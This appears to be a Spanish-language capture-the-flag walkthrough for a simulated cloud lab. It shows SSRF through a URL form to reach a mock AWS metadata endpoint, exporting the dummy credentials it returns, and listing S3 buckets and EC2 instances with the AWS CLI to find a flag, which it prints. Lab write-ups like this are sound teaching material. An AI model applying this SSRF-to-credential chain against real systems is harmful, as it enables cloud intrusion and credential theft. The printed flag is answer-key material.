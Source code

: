 #### **Paso 1: Analizar**
- Accede a la aplicación en `http://34.51.13.20:8080/`.
- Observa que hay un formulario que permite ingresar una URL y verificar su contenido.
- haz un escaneo de directorios


#### **Paso 2: Identificar la vulnerabilidad**
- Sospecha que la aplicación puede ser vulnerable a **Server-Side Request Forgery (SSRF)** porque toma una URL ingresada por el usuario y hace una solicitud HTTP a esa URL.
- Para confirmar, intenta acceder a recursos internos, como:
  - `http://localhost:8080` (la propia aplicación).
  - `http://127.0.0.1:8080` (alternativa a localhost).
  - `http://34.51.13.20:8080/latest/meta-data/` (el servicio de metadata simulado en la aplicación).

#### **Paso 3: Confirmar el SSRF**
- Ingresa la URL `http://34.51.13.20:8080/latest/meta-data/` en el formulario.
- Si la aplicación devuelve información del servicio de metadata de AWS, confirma que es vulnerable a SSRF.

---

### **2. Explotación**

Una vez confirmada la vulnerabilidad, el pentester explota el SSRF para obtener credenciales de AWS.

#### **Paso 1: Obtener credenciales de AWS**
- Ingresa la URL del servicio de metadata de AWS en el formulario:
  ```
  http://34.51.13.20:8080/latest/meta-data/iam/security-credentials/
  ```
- La aplicación devuelve las credenciales en formato JSON:
  ```json
  {
      "AccessKeyId": "test",
      "SecretAccessKey": "test",
      "Token": "test",
      "Region": "us-east-1"
  }
  ```

#### **Paso 2: Configurar las credenciales**
- Usa las credenciales obtenidas para configurar el entorno de AWS CLI:
  ```bash
  export AWS_ACCESS_KEY_ID=test
  export AWS_SECRET_ACCESS_KEY=test
  export AWS_SESSION_TOKEN=test
  export AWS_DEFAULT_REGION=us-east-1
  ```

---

### **3. Post-Explotación**

Con las credenciales en mano puedes interactúa con los servicios de AWS (LocalStack) para encontrar la bandera.

#### **Paso 1: Listar los buckets de S3**
- Usa el siguiente comando para listar los buckets en S3:
  ```bash
  aws --endpoint-url=http://34.51.13.20:4566 s3 ls
  ```
- Observa que hay un bucket llamado `secret-bucket-challenge`.

#### **Paso 2: Listar los archivos en el bucket**
- Usa el siguiente comando para listar los archivos en el bucket:
  ```bash
  aws --endpoint-url=http://34.51.13.20:4566 s3 ls s3://secret-bucket-challenge/
  ```
- Observa que hay un archivo llamado `flag.txt`.

### **Paso 3: Listar las instancias EC2**  

1. Ver las instancias EC2 ejecutando el siguiente comando:  

   ```bash
   aws --endpoint-url=http://34.51.13.20:4566 ec2 describe-instances \
     --query "Reservations[*].Instances[*].Tags[?Key=='Name'].Value" \
     --output text
   ```

2. La bandera es el nombre de la instancia encontrada:  

   ```
   FEMEC_Pentester_Cloud_AHAU
   ```

---


By M0r0k0
